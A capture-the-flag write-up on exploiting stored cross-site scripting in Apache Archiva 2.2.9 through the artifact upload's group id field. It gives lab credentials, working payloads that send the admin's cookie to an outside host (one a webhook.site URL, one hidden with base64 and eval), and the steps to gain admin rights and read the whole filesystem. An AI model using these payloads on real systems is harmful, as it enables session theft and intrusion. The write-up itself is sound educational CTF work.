 
Apache Archiva is a repository management software that helps us to take care of our personal as well as enterprise build repository.
Here we are using the version 2.2.9
We can login as a normal user using the credentials:
user: ctf
pass: H4v3Fun

As there is a server and an admin bot, this challenge can probably be an xss challenge
Looking at the source code, we can see that the admin visits, /repository/internal. So, we should try to make an entry to this page, but a normal user has very less privileges.
So, there is an upload functionality here, (in upload artifact). So, this page allows to upload a file to already existing repository.

Lets try giving a simple alert(1) payload to see if we have xss:
repo id: internal
group id : `<img src=a onerror=alert(1)>`
artifact: 1
version: 1
packaging : 1
upload a random file: then save.
Go to http://localhost:8055/repository/internal/ we can see we have xss

Now our goal is to steal the admin cookie and get the admin privileges which has lot more functionalitites like creating a repository.
To steal admin cookie:
`<img src=a onerror="fetch(String.fromCharCode(47)+String.fromCharCode(47)+'{my_host}:{my_port}'+String.fromCharCode(47)+btoa(document.cookie))">`

After getting the admin priveleges: create a new repo
id=root
name=root
directory=/
Accessed via http://localhost:8055/repository/root/ giving us complete read access to the entire system.


<br>
<br>

```<script>document.write('<img src="https://webhook.site/5f41dc6d-6532-41ec-90c5-a597ad8975b5?c='+document.cookie+'" />');</script>```


```
x"><img%20src="x"%20onerror="javascript:eval(atob('PHNjcmlwdD4KZG9jdW1lbnQud3JpdGUoJzxpbWcgc3JjPSJodHRwczovL3dlYmhvb2suc2l0ZS81ZjQxZGM2ZC02NTMyLTQxZWMtOTBjNS1hNTk3YWQ4OTc1YjU%2FYz0nK2RvY3VtZW50LmNvb2tpZSsnIiAvPicpOwo8L3NjcmlwdD4='))">
```
